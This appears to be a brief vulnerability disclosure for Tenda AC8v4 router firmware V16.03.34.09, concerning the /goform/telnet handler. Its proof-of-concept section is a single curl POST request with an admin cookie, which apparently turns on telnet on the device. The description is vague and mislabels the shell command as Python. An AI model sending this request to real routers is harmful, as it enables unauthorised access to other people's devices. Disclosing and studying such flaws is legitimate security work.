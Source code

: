 # TendaAC8v16.03.34.09telnet

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103683

## Affected version

AC8v4 V16.03.34.09

## Vulnerability details

An issue was discovered in AC8v4 V16.03.34.09 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![1736491008100](/img/1736491008100.png)

## POC

```python
curl -i -X POST http://192.168.1.100/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![1736490981974](/img/1736490981974.png)

